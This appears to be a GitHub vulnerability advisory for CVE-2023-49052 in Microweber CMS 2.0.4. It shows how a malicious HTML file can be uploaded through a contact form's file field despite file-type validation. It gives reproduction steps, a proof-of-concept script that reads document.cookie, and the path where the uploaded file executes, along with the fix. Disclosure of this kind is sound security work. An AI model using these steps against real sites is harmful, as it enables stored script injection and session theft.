


# CVE-2023-49052 - Microweber CMS v2.0.4 - Uploading Malicious Files

## Description
In version 2.0.4 of Microweber CMS where the file upload option is active in created forms, it is possible to send malicious `HTML` files, even when certain types of validations are applied in this field.

This vulnerability allows an attacker to upload files containing scripts that can lead to various malicious activities, such as stealing session cookies or login credentials, redirects, installing malware, among others.

## Fix Suggestion
Update to the latest version of Microweber.

## Steps to Reproduce:

**1)** In a Microweber CMS installation, create a page with a contact form and add the `File Upload` field.

**2)** Create a new file with the content below and save it as `poc.htm`:

```js
<svg></svg>
<html>
    <head>     
    </head>
    <body>
        <h1>Hi!</h1>
        <script>
            alert(document.cookie)
        </script>
    </body>
</html>
```

**3)** Access the form page and upload the created `poc.htm` file.


**4)** Now, to run the sent file, simply access `http://yoursite.com/userfiles/media/default/contact_form/poc.htm`

_(replace `https://yoursite.com` with the address of your test installation.)_



**Note**: please note that the above steps work even when there are some validation measures in the `File Upload` field such as “Image Files” and “Custom File Types” such as “jpg”.

### Reference
* [Microweber Releases v2.0.5](https://github.com/microweber/microweber/releases/tag/v2.0.5)
